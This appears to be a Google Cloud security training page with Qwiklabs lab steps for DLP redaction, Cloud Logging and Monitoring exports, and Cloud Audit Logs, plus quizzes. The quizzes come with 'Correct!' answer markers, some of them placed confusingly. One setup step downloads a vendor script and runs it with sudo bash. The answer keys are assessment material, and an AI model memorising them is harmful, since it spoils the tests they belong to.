In the Cloud Shell code editor, on the left, click the dlp-redacted.png file.
You will see the image with the domain name redacted.
When calling the redact API, you specified EMAIL_ADDRESS as the infotype to redact. In the image, you should notice that the email address is no longer visible.
Congratulations!
In this lab, you did the following:
Enabled the DLP API.
Installed the Node JS DLP API, and sample.
Inspected string data for sensitive data.
Redacted sensitive data from string data and images.
QUIZ
Which TWO of the following options are ways that Google Cloud automates for customers the mitigation of many content threats?
In Compute Engine, all files are scanned for ransomware type security breaches before uploading,
In Google Drive, all files will undergo a malware scan prior to any file download or file sharing attempt.
Correct! In addition, Google Safe Browsing and our Chrome browser protects users by identifying potentially dangerous links in email and showing warnings if users do click on them.
Google has global visibility into malicious sites and content, and is able to warn incoming users of suspected malware.
Correct! This ongoing insight makes detecting malware attacks very effective, and there is nothing for you to monitor or configure.
Which TWO of the following tools does Google Cloud make available to customers for the mitigation of content-related security threats?
Text Redaction API
Cloud Data Loss Prevention API
Correct! The DLP API can scan for, and redact, sensitive textual data from your files and incoming content.
Clean Data API
Cloud Natural Language API
Correct! The Natural Language API can help classify your content when used with other APIs, such as the Vision API.
Which TWO of the following statements are TRUE when speaking about content-related security threats?
Tracking and unmasking ransomware attackers, via incoming ransom payments, is usually not very difficult with today's modern banking systems.
Ransomware is a type of malicious software exploit that threatens to publish or perpetually block access to data unless money is paid.
Correct! Recent Google research shows cyber thieves have made at least 25 million dollars from ransomware in the last two years and this figure is expected to grow.
Public, user-supplied reviews, images, or videos are considered "safe content" and generally do not require additional security oversight.
Screenshots or other images that are made public without redaction can trigger a content-related cyber attack threat.
Correct! To complicate matters further, this is a type of security breach that is not always recognized.
Monitoring, Logging, Auditing and Scanning
LAB - Configuring and Using Cloud Logging and Cloud Monitoring
Overview
In this lab, you will learn common configurations and uses of both Cloud Logging and Cloud Monitoring.
You will learn how to view logs with filtering mechanisms, export logs to BigQuery syncs, and create logging metrics. You will also learn how to use Cloud Monitoring to view consumption metrics and create dashboards..
Objectives
In this lab, you will learn how to perform the following tasks:
View logs using a variety of filtering mechanisms.
Exclude log entries and disable log ingestion.
Export logs and run reports against exported logs.
Create and report on logging metrics.
Use Cloud Monitoring to monitor different Google Cloud projects.
Create a metrics dashboard.
Setup and requirements
For each lab, you get a new Google Cloud project and set of resources for a fixed time at no cost.
Sign in to Qwiklabs using an incognito window.
Note the lab's access time (for example,
1:15:00), and make sure you can finish within that time. There is no pause feature. You can restart if needed, but you have to start at the beginning.When ready, click Start lab.
Note your lab credentials (Username and Password). You will use them to sign in to the Google Cloud Console.
Click Open Google Console.
Click Use another account and copy/paste credentials for this lab into the prompts. If you use other credentials, you'll receive errors or incur charges.
Accept the terms and skip the recovery resource page.
Note: Do not click End Lab unless you have finished the lab or want to restart it. This clears your work and removes the project.
Activate Google Cloud Shell
Google Cloud Shell is a virtual machine that is loaded with development tools. It offers a persistent 5GB home directory and runs on the Google Cloud.
Google Cloud Shell provides command-line access to your Google Cloud resources.
In Cloud console, on the top right toolbar, click the Open Cloud Shell button.
Click Continue.
It takes a few moments to provision and connect to the environment. When you are connected, you are already authenticated, and the project is set to your PROJECT_ID. For example:
gcloud is the command-line tool for Google Cloud. It comes pre-installed on Cloud Shell and supports tab-completion.
You can list the active account name with this command:
xxxxxxxxxxgcloud auth list
Copied!
Output:
xxxxxxxxxxCredentialed accounts:- <myaccount>@<mydomain>.com (active)</mydomain></myaccount>
Example output:
xxxxxxxxxxCredentialed accounts:- google1623327_student@qwiklabs.net
You can list the project ID with this command:
xxxxxxxxxxgcloud config list project
Copied!
Output:
xxxxxxxxxx[core]project = <project_id></project_id>
Example output:
xxxxxxxxxx[core]project = qwiklabs-gcp-44776a13dea667a6
Note: Full documentation of gcloud is available in the gcloud CLI overview guide .
Task 1. Set up resources in your first project
In this task, you create the Google Cloud resources for the first project.
In the Qwiklabs Connection Details section, you will see two projects listed. The first project will contain active Google Cloud resources, which will generate logs and monitoring metric data.
The second project will contain your Monitoring account configuration data.
Note: Make sure that you are working on project 1 for this task!
If you have not activated cloud shell yet then, activate the Cloud Shell by clicking on Activate cloud shell. If prompted, click Continue.
In the Cloud Shell, download and unpack an archive that contains setup code:
xxxxxxxxxxcurl https://storage.googleapis.com/cloud-training/gcpsec/labs/stackdriver-lab.tgz | tar -zxf -
Copied!
xxxxxxxxxxcd stackdriver-lab
Copied!
Click on the Open Editor icon in the top-right corner of your Cloud Shell session.
Click Open in a new window if prompted.
Open the stackdriver-lab folder and select the linux_startup.sh file.
Replace the
# install Ops Agentsection with the following:
xxxxxxxxxx# install Ops Agentcurl -sSO https://dl.google.com/cloudagents/add-google-cloud-ops-agent-repo.shsudo bash add-google-cloud-ops-agent-repo.sh --also-install
Copied!
After pasting, make sure that your lines of code are properly indented.
Save your file.
Now open the
setup.shfile.Update the image version in
# create vmssection for windows-server (row 17) after--imagewith the following:
xxxxxxxxxxwindows-server-2016-dc-core-v20240214
Copied!
Add the following flag at the end of line 16 to set the machine type for the Linux VM:
xxxxxxxxxx--machine-type=e2-micro
Copied!
Add the following flag at the end of line 17 to set the machine type for the Windows VM:
xxxxxxxxxx--machine-type=e2-standard-2
Copied!
After pasting, make sure that your lines of code are properly indented.
Save your file.
In the Cloud Console, click Open Terminal in the top-right corner.
The created resources will include:
Service accounts (for use by VMs).
Role assignments (granting service accounts permissions to write to Monitoring).
A Linux VM with Apache and the Ops Agent installed.
A Windows VM with Ops Agent installed.
A Google Kubernetes Engine cluster with an Nginx deployment.
A Pub/Sub Topic and Subscription.
Run the following command to replace the zones in the setup script with a new one:
xxxxxxxxxxsed -i 's/us-west1-b/us-west1-a/g' setup.sh
Copied!
xxxxxxxxxxsed -i 's/us-west1-b/us-west1-a/g' gke.sh
Copied!
Now run the following command. If prompted, click Authorize.
xxxxxxxxxx./setup.sh
Copied!
You can safely ignore errors about service accounts and firewalls already existing.
Ensure you receive a similar output that states that both the Linux and Windows VMs are created:
xxxxxxxxxxCreated [https://www.googleapis.com/compute/v1/projects/qwiklabs-gcp-00-029875ba6255/zones/us-west1-a/instances/linux-server-qwiklabs-gcp-00-029875ba6255].NAME: linux-server-qwiklabs-gcp-00-029875ba6255ZONE: us-west1-aMACHINE_TYPE: e2-microPREEMPTIBLE:INTERNAL_IP: 10.138.0.2EXTERNAL_IP: 34.83.92.58STATUS: RUNNINGCreated [https://www.googleapis.com/compute/v1/projects/qwiklabs-gcp-00-029875ba6255/zones/us-west1-a/instances/windows-server-qwiklabs-gcp-00-029875ba6255].............NAME: windows-server-qwiklabs-gcp-00-029875ba6255ZONE: us-west1-aMACHINE_TYPE: e2-standard-2PREEMPTIBLE:INTERNAL_IP: 10.138.0.3EXTERNAL_IP: 35.247.97.91STATUS: RUNNINGUpdated [https://www.googleapis.com/compute/v1/projects/qwiklabs-gcp-00-029875ba6255/zones/us-west1-a/instances/linux-server-qwiklabs-gcp-00-029875ba6255].
Click Check my progress to verify the objective.
Set up resources in the first project
Check my progress
Task 2. View and filter logs in first project
In this task, you view VM instance logs with simple filtering.
See which services are writing logs
Ensure that you are on the Google Cloud Console homepage.
Verify you are still working in project 1; the project ID in the Console's info panel should match Project ID 1 in your lab's connection details panel.
View Cloud Logging by opening Navigation menu > Logging > Logs Explorer. If prompted, close the notification.
On the left-hand panel, Log fields will be visible. Under Resource Type, you will see several Google Cloud services that are creating logs.
All of these services are writing log entries. Entries from all these logs appear on the right, in the Query results pane. You can also query for results from specific logs, or that match specific criteria.
View VM instance logs with simple filtering
In the Log fields panel, under Resource Type, click VM Instance.
After you click this:
The contents of the Log fields panel changes. You will see a new field named
INSTANCE ID. It shows all the instance IDs of the VM instances that are writing log entries.The Query box near the top of the page is populated with
resource.type="gce_instance". This means that only entries from VM instances will be logged and displayed.The Query results pane also updates automatically—entries from VM Instances are the only logs displayed.
In the Instance Id field, select one of the instance IDs. Logs for the associated VM instance appear in the Query results pane.
Click inside the Query box. This now becomes editable.
In the Query box, remove everything after line 1. You should see only line 1, which contains
resource.type="gce_instance".Click Run query (located in the top-right corner). In the Query results, you should see entries from all VM instance logs.
Note that the logs panel reverts to its previous state.
Turn on streaming logs by clicking Stream logs (top-right corner, above the "Run query" button).
You should see new log entries showing up every 1-2 seconds as the background activity is generating unauthorized requests against your Web servers.
Note: You might need to click Restart streaming if it pauses.
You will now view overall web activity on any Linux Apache server.
Stop log streaming by clicking on Stop stream in the top-right corner.
Now click on the All Log Names dropdown, and select syslog, and then click Apply.
Entries from syslog appear in the Query results pane.
Note: You can also control log entry displays by selecting the log severity and time windows.
Task 3. Use log exports
In this task, you configure and test log exports to BigQuery.
Cloud Logging retains log entries for 30 days. In most circumstances, you'll want to retain some log entries for an extended time (and possibly perform sophisticated reporting on the archived logs).
Google Cloud provides a mechanism to have all log entries ingested into Cloud Monitoring also written to one or more archival sinks.
Configure the export to BigQuery
Go to Cloud Logging Exports (Navigation menu > Logging > Log Router).
Click Create Sink.
For the Sink name, type
vm_logsand then click Next.For Select sink service, select BigQuery dataset.
For Select BigQuery dataset, select Create new BigQuery dataset.
For the Dataset ID, type
project_logs, and click Create Dataset.Click Next.
In the Build inclusion filter list box, copy and paste
resource.type="gce_instance".Click Create Sink. You will now return to a Log Router Create log sink next steps page (a message at the top may appear that says "Your log sink was successfully created. Data should be available soon.")
Note: You could also export log entries to Pub/Sub or Cloud Storage.
Exporting to Pub/Sub can be useful if you want to flow through an ETL process prior to storing in a database (Monitoring **>** Pub/Sub **>** Dataflow **>** BigQuery/Bigtable).
Exporting to Cloud Storage will batch up entries and write them into Cloud Storage objects approximately every hour.
Configure HTTP load balancing exports to BigQuery
You will now create an export for the HTTP load balancing logs to BigQuery.
From the left-hand navigation menu, select Log Router to return to the service homepage.
Click Create Sink.
For the Sink name, type
load_bal_logsand then click Next.For Select sink service, select BigQuery dataset.
For Select BigQuery dataset, select project_logs. (You created this BigQuery dataset in the previous set of steps.)
Click Next.
In the Build inclusion filter list box, copy and paste
resource.type="http_load_balancer".Click Create Sink.
You will now be on the Create log sink next steps page for the log sink.
From the left-hand navigation menu, select Log Router to return to the service homepage.
The Log Router page appears, displaying a list of sinks (including the one you just created—load_bal_logs).
Investigate the exported log entries
Open BigQuery (Navigation menu > BigQuery).
The "Welcome to BigQuery in the Cloud Console" message box opens. This message box provides a link to the quickstart guide and lists UI updates.
Click Done.
In the left pane in the Explorer section, click the arrow next to your project (this starts with
qwiklabs-gcp-xxx) and you should see aproject_logsdataset revealed under it.
You will now verify that the BigQuery dataset has appropriate permissions to allow the export writer to store log entries.
Click on the three dotted menu item ("View actions") next to the
project_logsdataset and click Open.Then from the top-right hand corner of the Console, click the Sharing dropdown and select Permissions.
On the Dataset permission page, you will see that your service accounts have the "BigQuery Data Editor" role.
Close the dataset permissions panel.
Expand the
project_logsdataset to see the tables with your exported logs—you should see multiple tables (one for each type of log that's receiving entries).Click on the syslog_(1) table, then click Details to see the number of rows and other metadata. If the syslog_(1) table is not visible, try refreshing the browser.
In Details tab, under the table info you will see the full table name in the Table ID, copy this table name.
Note: Because the log entries are being streamed into BigQuery as they arrive to Cloud Monitoring, they are stored in a BigQuery streaming buffer. Roughly 24 hours after arriving in the buffer, they will be moved into regular BigQuery storage. You can perform queries against the table and both the data in regular storage and the buffer will be scanned.
To see a subset of your tables fields, paste the below query in the query editor tab (replacing
qwiklabs-gcp-xx.project_logs.syslog_xxxxxwith the table name you copied in the previous step).
xxxxxxxxxxSELECTlogName, resource.type, resource.labels.zone, resource.labels.project_id,FROM`qwiklabs-gcp-xx.project_logs.syslog_xxxxx`
Copied!
Then click Run.
Feel free to experiment with some other queries that might provide interesting insights.
Note: Cloud Logging exports incoming log entries before any decision is made about ingesting the entry into logging storage. As a result, only new log entries will be exported to the sink. As a result, you may not see a syslog_(1) table as all the syslog entries were generated prior to the export.
Existing log entries already ingested into Cloud Logging can be extracted using commands like:
gcloud logging read "resource.type=gce_instance AND logName=projects/[PROJECT_ID]/logs/syslog AND textPayload:SyncAddress" --limit 10 --format json.
Note: You have set up an export for all the log entries generated by all services in the project. You can also create aggregate exports, which export log entries generated across projects, grouped by billing account, folder, or organization.
Click Check my progress to verify the objective.
Configure the export to BigQuery
Check my progress
Task 4. Create a logging metric
In this task, you create a metric that you can use to generate alerts if too many web requests generate access denied log entries.
Cloud Monitoring allows you to create custom metrics based on the arrival of specific log entries.
Go back to the Logs Explorer page (Navigation menu > Logging > Logs Explorer).
Note: If prompted, click Leave for unsaved work.
Select Create Metric from Actions dropdown (right-hand side of the Console) to create a logging metric based on this filter.
In the Log-based metric Editor, set Metric Type as Counter.
Under the Details section, set the Log-based metric name to 403s.
Under the Filter selection for Build filter, enter the following and replace
PROJECT_IDwith Project ID 1:
xxxxxxxxxxresource.type="gce_instance"log_name="projects/PROJECT_ID/logs/syslog"
Copied!
Leave all the other fields at their default.
Click Create Metric.
You will make use of this metric in the dashboarding portion of the lab.
Click Check my progress to verify the objective.
Create a logging metric
Check my progress
Task 5. Create a monitoring dashboard
In this task, you switch to the second project created by Qwiklabs and setup a Monitoring workspace.
Switch projects
Switch to the second project created by Qwiklabs (use the Project ID 2 from the Qwiklabs Connection Details). The current project ID is displayed at the top of the console.

Click the project name at the top of the Cloud Console and click the All tab.
Click the second project you want to switch to. Verify it is the Project ID 2 from the Qwiklabs Connection Details.
Click Open.
Create a Monitoring workspace
You will now setup a Monitoring workspace that's tied to your Google Cloud Project. The following steps create a new account that has a free trial of Monitoring.
In the Cloud Console, click on Navigation menu > Monitoring.
Wait for your workspace to be provisioned.
When the Monitoring dashboard opens, your workspace is ready.
Now add the first project to your Cloud Monitoring workspace.
In the left menu, click Settings, then click Metric Scope and click + Add Projects.
Click Select Projects
Select the checkmark next to your first project ID and click Select.
Click Add Projects.
Create a monitoring dashboard
In the left pane, click Dashboards.
Click + Create Dashboard.
Replace the generic dashboard name at the top with
Example Dashboard.Click Add Widget > Line.
For Widget Title, enter in CPU Usage.
Click the Metric dropdown.
Click Active to deselect it. The tick should disappear.
For Metric, select VM Instance > Instance > CPU usage. Make sure it's the one that follows the format:
compute.googleapis.com/instance/cpu/usage_time.Click Apply.
Now click Apply in the top-right corner.
Click Add Widget > Line.
For Widget Title, enter in Memory Utilization.
Click the Metric dropdown.
Click Active to deselect it. The tick should disappear.
For Metric, select VM Instance > Memory > Memory Utilization. Make sure it's the one that follows the format:
agent.googleapis.com/memory/percent_used.Click Apply.
Now click Apply in the top-right corner.
You should now see your two graphs—one for CPU usage and the other for memory utilization—populated.
You can now explore some other options by editing the charts such as Filter, Group By, and Aggregation.
Congratulations!
In this lab, you learned how to do the following:
View logs using a variety of filtering mechanisms.
Exclude log entries and disable log ingestion.
Export logs and run reports against exported logs.
Create and report on logging metrics.
Use Cloud Monitoring to monitor different Google Cloud projects.
Create a metrics dashboard.
LAB - Configuring and Viewing Cloud Audit Logs
Overview
In this lab, you will investigate Cloud Audit Logs. Cloud Audit Logs maintains two audit logs for each project and organization: Admin Activity and Data Access.
Google Cloud services write audit log entries to these logs to help you answer the questions of "who did what, where, and when" within your Google Cloud projects.
Objectives
In this lab, you will learn how to perform the following tasks:
View audit logs in the Activity page.
View and filter audit logs in Cloud Logging.
Retrieve log entries with gcloud.
Export audit logs.
Setup and requirements
For each lab, you get a new Google Cloud project and set of resources for a fixed time at no cost.
Sign in to Qwiklabs using an incognito window.
Note the lab's access time (for example,
1:15:00), and make sure you can finish within that time. There is no pause feature. You can restart if needed, but you have to start at the beginning.When ready, click Start lab.
Note your lab credentials (Username and Password). You will use them to sign in to the Google Cloud Console.
Click Open Google Console.
Click Use another account and copy/paste credentials for this lab into the prompts. If you use other credentials, you'll receive errors or incur charges.
Accept the terms and skip the recovery resource page.
Note: Do not click End Lab unless you have finished the lab or want to restart it. This clears your work and removes the project.
Activate Google Cloud Shell
Google Cloud Shell is a virtual machine that is loaded with development tools. It offers a persistent 5GB home directory and runs on the Google Cloud.
Google Cloud Shell provides command-line access to your Google Cloud resources.
In Cloud console, on the top right toolbar, click the Open Cloud Shell button.

Click Continue.
It takes a few moments to provision and connect to the environment. When you are connected, you are already authenticated, and the project is set to your PROJECT_ID. For example:
gcloud is the command-line tool for Google Cloud. It comes pre-installed on Cloud Shell and supports tab-completion.
You can list the active account name with this command:
xxxxxxxxxxgcloud auth list
Copied!
Output:
xxxxxxxxxxCredentialed accounts:- <myaccount>@<mydomain>.com (active)</mydomain></myaccount>
Example output:
xxxxxxxxxxCredentialed accounts:- google1623327_student@qwiklabs.net
You can list the project ID with this command:
xxxxxxxxxxgcloud config list project
Copied!
Output:
xxxxxxxxxx[core]project = <project_id></project_id>
Example output:
xxxxxxxxxx[core]project = qwiklabs-gcp-44776a13dea667a6
Note: Full documentation of gcloud is available in the gcloud CLI overview guide .
Check project permissions
Before you begin your work on Google Cloud, you need to ensure that your project has the correct permissions within Identity and Access Management (IAM).
In the Google Cloud console, on the Navigation menu (
Confirm that the default compute Service Account
{project-number}-compute@developer.gserviceaccount.comis present and has theeditorrole assigned. The account prefix is the project number, which you can find on Navigation menu > Cloud overview > Dashboard.
Note: If the account is not present in IAM or does not have the editor role, follow the steps below to assign the required role.
In the Google Cloud console, on the Navigation menu, click Cloud overview > Dashboard.
Copy the project number (e.g.
729328892908).On the Navigation menu, select IAM & Admin > IAM.
At the top of the IAM page, click + Grant Access.
For New principals, type:
xxxxxxxxxx{project-number}-compute@developer.gserviceaccount.com
Copied!
Replace
{project-number}with your project number.For Select a role, select Project (or Basic) > Editor.
Click Save.
Task 1. Enable data access audit logs
In this task, you enable data access audit logs.
Data access audit logs (except for BigQuery) are disabled by default, so you must first enable all audit logs. Logging charges for the volume of log data that exceeds the free monthly logs allotment.
All logs received by Logging count towards the logs allotment limit, except for the Cloud Audit Logs that are enabled by default. This includes all Google Cloud Admin Activity audit logs, System Event logs, plus data access audit logs from BigQuery only.
If you have not activated cloud shell yet then, on the Google Cloud Console title bar, click Activate Cloud Shell (
At the command prompt, run this command to retrieve the current IAM policy for your project and save it as
policy.json:
xxxxxxxxxxgcloud projects get-iam-policy $DEVSHELL_PROJECT_ID \--format=json >./policy.json
Copied!
Click the Open Editor button to view the Cloud Shell code editor.
If an error indicates that the code editor could not be loaded because third-party cookies are disabled, click Open in New Window and switch to the new tab.
In the Cloud Shell code editor, click the policy.json file to expose its contents.
Add the following text to the
policy.jsonfile to enable data Access audit logs for all services. This text should be added just after the first{and before"bindings": [. (Be careful not to change anything else in the file).
xxxxxxxxxx"auditConfigs": [{"service": "allServices","auditLogConfigs": [{ "logType": "ADMIN_READ" },{ "logType": "DATA_READ" },{ "logType": "DATA_WRITE" }]}],
Copied!
The file will look similar to below.

Click the Open Terminal button to return to the Cloud Shell command line.
At the command line, run the following command to set the IAM policy:
xxxxxxxxxxgcloud projects set-iam-policy $DEVSHELL_PROJECT_ID \./policy.json
Copied!
The command will return and display the new IAM policy.
Task 2. Generate some account activity
In this task, you create resources that generate log activty that you can view in Cloud Audit logs.
In Cloud Shell, run the following commands to create a few resources. This will generate some activity that you will view in the audit logs:
xxxxxxxxxxgsutil mb gs://$DEVSHELL_PROJECT_IDecho "this is a sample file" > sample.txtgsutil cp sample.txt gs://$DEVSHELL_PROJECT_IDgcloud compute networks create mynetwork --subnet-mode=autogcloud compute instances create default-us-vm \--machine-type=e2-micro \--zone=us-east4-c --network=mynetwork
Copied!
xxxxxxxxxxgsutil rm -r gs://$DEVSHELL_PROJECT_ID
Copied!
Task 3. View the Admin Activity logs
In this task, you view the Admin Activity logs.
Admin Activity logs contain log entries for API calls or other administrative actions that modify the configuration or metadata of resources. For example, the logs record when VM instances and App Engine applications are created and when permissions are changed.
To view the logs, you must have the Cloud Identity and Access Management roles Logging/Logs Viewer or Project/Viewer.
Admin Activity logs are always enabled so there is no need to enable them. There is no charge for your Admin Activity audit logs.
Note: You can view audit log entries in the Logs Viewer, Cloud Logging, and in the Cloud SDK. You can also export audit log entries to Pub/Sub, BigQuery, or Cloud Storage.
Use the Cloud Logging page
From the Cloud Console, select Navigation menu > Logging > Logs Explorer.
Paste the following in the Query builder field and replace
[PROJECT_ID]with your project ID. You can copy the PROJECT_ID from the Qwiklabs Connection Details.
xxxxxxxxxxlogName = ("projects/[PROJECT_ID]/logs/cloudaudit.googleapis.com%2Factivity")
Copied!
Click the Run Query button.
Locate the log entry indicating that a Cloud Storage bucket was deleted. This entry will refer to
storage.googleapis.com, which calls thestorage.buckets.deletemethod to delete a bucket. The bucket name is the same name as your project id.Within that entry, click on the storage.googleapis.com text and select Show matching entries.
Notice a line was added to the query preview textbox (located where the query builder had been) to show only storage events.
xxxxxxxxxxlogName = ("projects/qwiklabs-gcp-xxxxxxxxx/logs/cloudaudit.googleapis.com%2Factivity")protoPayload.serviceName="storage.googleapis.com"
Copied!
You should now see only the cloud storage entries.
Within that entry, click on the storage.buckets.delete text and select Show matching entries.
Notice another line was added to the Query preview textbox and now you can only see storage delete entries.
This technique can be used to easily locate desired events.
In the Query results, expand the Cloud Storage delete entry and then expand the protoPayload field.
Expand the authenticationInfo field and notice you can see the email address of the user that performed this action.
Feel free to explore other fields in the entry.
Use the Cloud SDK
Log entries can also be read using the Cloud SDK command:
Example output:
xxxxxxxxxxgcloud logging read [FILTER]
In the Cloud Shell pane, use this command to retrieve only the audit activity for storage bucket deletion:
Note: If Cloud Shell is disconnected, then click reconnect.
xxxxxxxxxxgcloud logging read \"logName=projects/$DEVSHELL_PROJECT_ID/logs/cloudaudit.googleapis.com%2Factivity \AND protoPayload.serviceName=storage.googleapis.com \AND protoPayload.methodName=storage.buckets.delete"
Copied!
Task 4. Export the audit logs
In this task, you export audit logs. Individual audit log entries are kept for a specified length of time and are then deleted. The Cloud Logging Quota Policy explains how long log entries are retained. You cannot otherwise delete or modify audit logs or their entries.
| Audit log type | Retention period |
|---|---|
Admin Activity | 400 days |
Data Access | 30 days |
For longer retention, you can export audit log entries like any other Cloud Logging log entries and keep them for as long as you wish.
Export audit logs
When exporting logs, the current filter will be applied to what is exported.
In Logs Explorer, enter a query string in the Query builder to display all the audit logs. (This can be done by deleting all lines in the filter except the first one.) Your filter will look like what is shown below. (Note that your project ID will be different.)
xxxxxxxxxxlogName = ("projects/[PROJECT_ID]/logs/cloudaudit.googleapis.com%2Factivity")
Copied!
Click the Run Query button.
Click on Actions > Create Sink button.
For the Sink Name name, enter
AuditLogsExportand click Next.For the Sink service, enter
BigQuery dataset.Click Select BigQuery dataset and then select Create new BigQuery dataset.
For the Dataset ID, enter
auditlogs_datasetand click Create Dataset.Uncheck the Use Partitioned Tables checkbox, if it is already selected, and click Next.
In the Build inclusion filter list box, make sure that this filter text is entered
logName = ("projects/[PROJECT_ID]/logs/cloudaudit.googleapis.com%2Factivity").Click the Create Sink button. The Logs Router Sinks page appears. Now, click on Logs Router.
On this page, you should be able to see the AuditLogsExport sink.
To the right of the AuditLogsExport sink, click the button with three dots (
This will show information about the sink that you created.
Click Cancel when done.
Note: You could also export log entries to Pub/Sub or Cloud Storage. Exporting to Pub/Sub can be useful if you want to flow through an ETL process prior to storing in a database (Cloud Operations > PubSub > Dataflow > BigQuery/Bigtable). Exporting to Cloud Storage will batch up entries and write them into Cloud Storage objects approximately once an hour.
Note: All future logs will now be exported to BigQuery and the BigQuery tools can be used to perform analysis on the audit log data. The export does not export existing log entries.
In Cloud Shell, run the following commands to generate some more activity that you will view in the audit logs exported to BigQuery:
xxxxxxxxxxgsutil mb gs://$DEVSHELL_PROJECT_IDgsutil mb gs://$DEVSHELL_PROJECT_ID-testecho "this is another sample file" > sample2.txtgsutil cp sample.txt gs://$DEVSHELL_PROJECT_ID-testgcloud compute instances delete --zone=us-east4-c \--delete-disks=all default-us-vm
Copied!
When prompted, enter y.
xxxxxxxxxxgsutil rm -r gs://$DEVSHELL_PROJECT_IDgsutil rm -r gs://$DEVSHELL_PROJECT_ID-test
Copied!
Task 5. Use BigQuery to analyze logs
In this task, you export logs to a BigQuery dataset. You then analyze the logs using Query editor.
Note: When you export logs to a BigQuery dataset, Cloud Logging creates dated tables to hold the exported log entries. Log entries are placed in tables whose names are based on the entries' log names.
Go to Navigation menu > BigQuery. If prompted, log in with the Qwiklabs-provided credentials.
The Welcome to BigQuery in the Cloud Console message box opens. This message box provides a link to the quickstart guide and lists UI updates.
Click Done.
In the left pane, under the Explorer section, click your project. This starts with
(qwiklabs-gcp-xxx). You should see an auditlogs_dataset dataset under it.Verify that the BigQuery dataset has appropriate permissions to allow the export writer to store log entries. Click on the auditlogs_dataset dataset.
From the Sharing dropdown, select Permissions.
On the Dataset Permission page, you will see the service account listed as BigQuery Data Editor member. If it's not already listed, you can add a service account under Add Principal and grant it the data editor role.
Click the Close button to close the Share Dataset screen.
Expand the dataset to see the table with your exported logs. (Click on the expand icon to expand the dataset.)
Click on the table name and take a moment to review the schemas and details of the tables that are being used.
Click the Query > In new tab button.
In Cloud Shell, run the following commands again to generate some more activity that you will view in the audit logs exported to BigQuery:
xxxxxxxxxxgcloud compute instances create default-us-vm \--zone=us-east4-c --network=mynetwork
Copied!
xxxxxxxxxxgcloud compute instances delete --zone=us-east4-c \--delete-disks=all default-us-vm
Copied!
When prompted, enter y.
xxxxxxxxxxgsutil mb gs://$DEVSHELL_PROJECT_IDgsutil mb gs://$DEVSHELL_PROJECT_ID-testgsutil rm -r gs://$DEVSHELL_PROJECT_IDgsutil rm -r gs://$DEVSHELL_PROJECT_ID-test
Copied!
Delete the text provided in the Query editor window and paste in the query below. This query will return the users that deleted virtual machines in the last 7 days.
xxxxxxxxxx#standardSQLSELECTtimestamp,resource.labels.instance_id,protopayload_auditlog.authenticationInfo.principalEmail,protopayload_auditlog.resourceName,protopayload_auditlog.methodNameFROM`auditlogs_dataset.cloudaudit_googleapis_com_activity_*`WHEREPARSE_DATE('%Y%m%d', _TABLE_SUFFIX) BETWEENDATE_SUB(CURRENT_DATE(), INTERVAL 7 DAY) ANDCURRENT_DATE()AND resource.type = "gce_instance"AND operation.first IS TRUEAND protopayload_auditlog.methodName = "v1.compute.instances.delete"ORDER BYtimestamp,resource.labels.instance_idLIMIT1000
Copied!
Click the Run button. After a couple of seconds you will see each time someone deleted a virtual machine within the past 7 days. You should see two entries, which is the activity you generated in this lab. Remember, BigQuery is only showing activity since the export was created.
Delete the text in the Query_editor window and paste in the query below. This query will return the users that deleted storage buckets in the last 7 days.
xxxxxxxxxx#standardSQLSELECTtimestamp,resource.labels.bucket_name,protopayload_auditlog.authenticationInfo.principalEmail,protopayload_auditlog.resourceName,protopayload_auditlog.methodNameFROM`auditlogs_dataset.cloudaudit_googleapis_com_activity_*`WHEREPARSE_DATE('%Y%m%d', _TABLE_SUFFIX) BETWEENDATE_SUB(CURRENT_DATE(), INTERVAL 7 DAY) ANDCURRENT_DATE()AND resource.type = "gcs_bucket"AND protopayload_auditlog.methodName = "storage.buckets.delete"ORDER BYtimestamp,resource.labels.instance_idLIMIT1000
Copied!
Click the Run button. After a couple seconds you will see entries showing each time someone deleted a storage bucket within the past 7 days.
Note: As you can see, the ability to analyze audit logs in BigQuery is very powerful. In this activity, you viewed just two examples of querying audit logs.
Click Check my progress to verify the objective.
Export audit logs and use BigQuery to analyze logs
Check my progress
Congratulations!
In this lab, you have done the following:
Viewed audit logs on the activity page.
Viewed and filtered audit logs in Cloud Operations.
Retrieved log entries with
gcloud.Exported audit logs.
QUIZ
Which one of the following is NOT a benefit for automating security in Google Cloud environments?
Security automation allows scaling faster than the growth of threats and assets.
Security automation Improves consistency, quickness, and reliability.
While beneficial in some situations, the time invested in automating certain tasks is not worth it due to a lack of Google Cloud services that support this framework.
Correct! Investing in automation can save a significant amount of time and Google Cloud offers many services for automation, including Security Command Center, Web Security Scanner, and Artifact Registry.
Once you have encapsulated some task in automation, anyone can execute the task.
Which TWO of the following statements about Cloud Audit Logs are TRUE?
Enabling Data Access audit logs might result in your project being charged for the additional logs usage.
Correct! These logs are disabled by default because they can become quite large and incur extra charges.
Unlike Cloud Logging logs, you cannot export Cloud Audit Logs entries to BigQuery.
Data Access audit logs record data-access operations on resources that are publicly shared.
Cloud Audit Logs maintains four audit logs for each project, folder, and organization.
Correct! The four audit logs maintained are “Admin Activity logs”, “System Event logs”, “Data Access logs”, and “Policy Denied logs.”
Which one of the following statements about Security Command Center is NOT true?
Security Command Center helps you prevent, detect, and respond to threats.
Security Command Center requires three IAM administrative permissions to set up
Security Command Center provides a centralized view for cloud resources.
Security Command Center works by generating “findings” associated with assets.
Correct! Security Command Center requires only two IAM administrative permissions to set up—Organization Administrator and Security Center Admin roles.
Which TWO of the following statements about Cloud Monitoring and Cloud Logging are TRUE?
While Cloud Logging is not built-in to most Google Cloud services, you can easily add it for a reasonable fee.
You can analyze log data in BigQuery.
Correct! This feature allows you to create sophisticated log analysis reports.
The Cloud Logging Agent can be installed on both Compute Engine and AWS EC2 instances.
Correct! This allows you to stream logs from third-party applications into Cloud Logging.
Cloud Monitoring and Cloud Logging retain logs for an indefinite period of time.
Securing your Network with Cloud Armor
LAB - Bot Management with Google Cloud Armor and reCAPTCHA
Overview
Google Cloud HTTP(S) load balancing is deployed at the edge of Google's network in Google points of presence (POP) around the world. User traffic directed to an HTTP(S) load balancer enters the POP closest to the user and is then load balanced over Google's global network to the closest backend that has sufficient capacity available.
Cloud Armor is Google's distributed denial of service and web application firewall (WAF) detection system. Cloud Armor is tightly coupled with the Google Cloud HTTP Load Balancer and safeguards applications of Google Cloud customers from attacks from the internet.
reCAPTCHA Enterprise is a service that builds on the reCAPTCHA API and protects your site from spam and abuse using advanced risk analysis techniques to tell humans and bots apart. Cloud Armor Bot Management provides an end-to-end solution integrating reCAPTCHA Enterprise bot detection and scoring with enforcement by Cloud Armor at the edge of the network to protect downstream applications.
